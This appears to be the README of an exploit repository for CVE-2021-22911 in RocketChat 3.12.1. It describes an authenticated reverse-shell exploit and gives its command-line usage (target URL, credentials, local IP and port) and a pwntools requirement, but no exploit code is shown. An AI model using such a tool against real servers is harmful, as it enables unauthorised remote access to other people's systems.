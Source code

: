 # Authenticated RocketChat 3.12.1 Reverse-Shell - CVE-2021-22911
Authenticated RocketChat 3.12.1 Reverse Shell - CVE-2021-22911

Based On: https://github.com/CsEnox/CVE-2021-22911

Quick exploit to get a reverse shell if credentials were adquired. Tested on RocketChat 2.4.14

<br>

Usage: python3 exploit.py -t \<TARGET URL\> -u \<USERNAME\> -p \<PASSWORD\> -i \<LOCAL IP\> -l \<LOCAL PORT\>
  
Requirements: This exploit uses pwntools > pip install pwn
